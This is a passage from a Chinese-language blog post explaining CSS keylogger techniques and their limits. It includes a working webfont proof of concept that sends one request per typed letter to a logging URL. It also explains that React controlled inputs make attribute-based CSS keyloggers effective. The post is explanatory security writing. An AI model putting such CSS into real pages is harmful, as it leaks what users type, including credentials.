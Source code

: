 就算順序亂掉，透過這種關係你把字母重新組合起來，還是可以得到正確的密碼順序。

## 重複字元不會送出 Request

因為載入的網址一樣，所以重複的字元就不會再載入圖片，不會發送新的 Request。這個問題目前據我所知應該是解不掉。

## 在輸入的時候，其實 value 不會變

這個其實是 CSS Keylogger 最大的問題。

當你在 input 輸入資訊的時候，其實 input 的 value 是不會變的，所以上面講的那些完全不管用。你可以自己試試看就知道了，input 的內容會變，但是你用 dev tool 看的話，會發現 value 完全不會變。

針對這個問題，有兩個解決方案，第一個是利用 Webfont：

``` html
<!doctype html>
<title>css keylogger</title>
<style>
@font-face { font-family: x; src: url(./log?a), local(Impact); unicode-range: U+61; }
@font-face { font-family: x; src: url(./log?b), local(Impact); unicode-range: U+62; }
@font-face { font-family: x; src: url(./log?c), local(Impact); unicode-range: U+63; }
@font-face { font-family: x; src: url(./log?d), local(Impact); unicode-range: U+64; }
input { font-family: x, 'Comic sans ms'; }
</style>
<input value="a">type `bcd` and watch network log
```
（程式碼取自：[Keylogger using webfont with single character unicode-range](https://github.com/jbtronics/CrookedStyleSheets/issues/24)）

value 不會跟著變又怎樣，字體總會用到了吧！只要每打一個字，就會送出相對應的 Request。

但這個方法的侷限有兩個：

1. 沒辦法保證順序，一樣也沒辦法解決重複字元的問題
2. 如果欄位是`<input type='password' />`，就沒有用

（在研究第二個侷限的時候發現一件有趣的事，由於 Chrome 跟 Firefox 會把「頁面上有 type 是 password 的 input，但是又沒用 HTTPS」的網站標示為不安全，所以有人研究出用[普通 input 搭配特殊字體](https://www.troyhunt.com/bypassing-browser-security-warnings-with-pseudo-password-fields/)來躲過這個偵測，並且讓輸入框看起來像是 password（但其實 type 不是 password），在這種情形下就可以用 Webfont 來攻擊了）

再來我們看第二種解決方案，剛剛有說到這個問題的癥結點在於 value 不會變，換句話說，如果你 input 輸入值的時候，value 會跟著變的話，這個攻擊手法就很用了。

嗯...有沒有一種很熟悉的感覺。

``` js
class NameForm extends React.Component {
  constructor(props) {
    super(props);
    this.state = {value: ''};
  
    this.handleChange = this.handleChange.bind(this);
  }
  
  handleChange(event) {
    this.setState({value: event.target.value});
  }
  
  render() {
    return (
      <form>
        <label>
          Name:
          <input type="text" value={this.state.value} onChange={this.handleChange} />
        </label>
      </form>
    );
  }
```